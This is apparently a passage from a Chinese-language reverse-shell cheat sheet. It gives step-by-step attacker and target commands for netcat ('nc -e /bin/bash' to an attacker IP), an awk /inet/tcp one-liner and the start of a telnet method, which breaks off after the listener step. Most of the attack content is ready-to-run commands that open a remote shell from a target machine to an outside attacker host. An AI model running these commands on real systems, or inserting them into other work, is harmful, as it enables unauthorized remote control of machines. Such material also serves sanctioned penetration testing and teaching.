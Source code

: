 **前提**

目标主机装了nc

**步骤**

* 第一步

  攻击机：

  ```bash
  nc -lnvp [port]
  ```

未加参数n时，使用nc监听端口反弹shell时都会有一个警告：[port]: inverse host lookup failed: Unknown host。根据nc帮助文档的提示加上-n参数即不产生这个警告，-n参数代表在建立连接之前不对主机进行dns解析。

* 第二步

  靶机：

  ```bash
  nc -e /bin/bash [攻击机ip] [port]
  ```


-e prog 程序重定向，一旦连接，就执行。-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。

3. **awk反弹**

AWK 是一种处理文本文件的语言,是一个强大的文本分析工具。

**步骤：**

* 第一步


攻击机:

```bash
nc -nvlp [port]
```

* 第二步


靶机：

```bash
awk 'BEGIN{s="/inet/tcp/0/[攻击者ip]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

4. **telnet反弹**

要在攻击主机上分别监听两个端口，执行反弹shell命令后，在其中一个端口终端输入命令，另一个端口查看命令执行后的结果。

**步骤**

* 第一步


攻击机：

```bash
nc -nvlp [port1]    #监听输入命令端口
nc -nvlp [port2]    #监听输出命令端口
```
